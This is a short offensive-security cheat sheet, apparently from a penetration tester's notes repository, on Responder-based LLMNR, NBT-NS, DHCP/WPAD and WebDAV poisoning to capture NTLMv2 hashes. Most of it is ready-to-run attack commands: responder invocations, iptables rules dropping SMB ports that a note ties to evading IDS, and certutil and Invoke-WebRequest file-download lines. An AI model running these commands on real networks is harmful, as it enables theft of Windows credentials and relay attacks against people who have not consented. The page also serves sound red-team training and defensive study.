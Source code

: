 # 02 - Responder

Search Tag(s): #mitm #responder #smb #relay #ntlm

## 2.1 - Basics

### 2.1 - LLMNR

- NBT-NS and LLMNR Poisoning via capturing NTLMv2-SSP hashes

`$ sudo responder -I <interface> -rdwv`

- LLMNR Poisoning

`$ sudo responder -I eth0 --lm -v`

### 2.2 - DHCP

- DHCP and WPAD poisoning

When a windows host requires a new IP address dynamically it can perform HTTP WPAD poisoning response while the user uses a web browser that contains auto proxy settings enabled

`$ sudo responder -I <interface> -Pdwv`

### 2.3 - WebDAV

- Block SMB traffic on the attacker's machine to poison NTLMv2-SSP responses via WebDAV/HTTP

Note: You don't have to block the ports unless you're evading some IDS to identify you for performing MITM poisoning

```
$ sudo iptables -A INPUT -p udp --dport 137 -j DROP
$ sudo iptables -A INPUT -p udp --dport 138 -j DROP
$ sudo iptables -A INPUT -p tcp --dport 139 -j DROP
$ sudo iptables -A INPUT -p tcp --dport 445 -j DROP
```

`$ sudo responder -I eth1 -Pdv`

`C:\> certutil -urlcache -split -f https://google.com file.txt`

`PS C:\> Invoke-WebRequest -Uri https://google.com -OutFile file.txt`

---
## References

- [Responder](https://github.com/lgandx/Responder)

- [Hacktricks: Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks)

- [Responders DHCP Poisoner](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)

### Hacking Articles

- [Hacking Articles: A Detailed Guide on Responder LLMNR Poisoning](https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/)

### n00py

- [n00py: Understanding UNC Paths SMB And WebDAV](https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/)

- [n00py: The Dangers of Endpoint Discovery in Vipre Endpoint Security](https://www.n00py.io/2020/12/the-dangers-of-endpoint-discovery-in-vipre-endpoint-security/)

### Mubix

- [Malicious.link: SMB/HTTP Auth Capture via SCF File](https://room362.com/posts/2016/smb-http-auth-capture-via-scf/)

### DMCXBLUE

- [DMCXBLUE: Capturing Hashes](https://dmcxblue.net/2020/06/17/capturing-hashes/)

- [Using A SCF File to Gather Hashes](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/)

- [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)